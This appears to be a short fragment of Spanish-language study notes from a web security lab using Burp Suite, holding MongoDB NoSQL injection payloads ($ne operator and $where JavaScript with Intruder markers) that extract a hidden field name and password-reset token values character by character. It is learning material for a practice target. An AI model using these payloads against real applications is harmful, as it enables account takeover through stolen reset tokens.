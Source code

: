 ![image.png](Burp%20Suite%202561af578eba4b378c28fe54b47dd0b7/image%2019.png)

Otro campo aparte del email

```jsx
{"username":"carlos","password":{"$ne":"invalid"},
"$where":"function(){ if (Object.keys(this)[4].length == §6§ ) return 1; else 0;}"
}
Son 11 caracteres

"$where":"function(){ if (Object.keys(this)[4].match(/^$a$/)) return 1; else 0;}"
unlockToken
9457f5cff38fff0b

"$where":"function(){ if (Object.keys(this)[4].match(/^f§a§/)) return 1; else 0;}"
"$where":"function(){ if (Object.keys(this)[4].match('^.{§1§}§1§.*')) return 1; else 0;}"
forgotPwd
"$where":"function(){ if (this.forgotPwd.match(/^$a$/)) return 1; else 0;}"
"$where":"function(){ if (this.forgotPwd.match('^.{§1§}§A§.*')) return 1; else 0;}"
db10648a240ccfa1
```
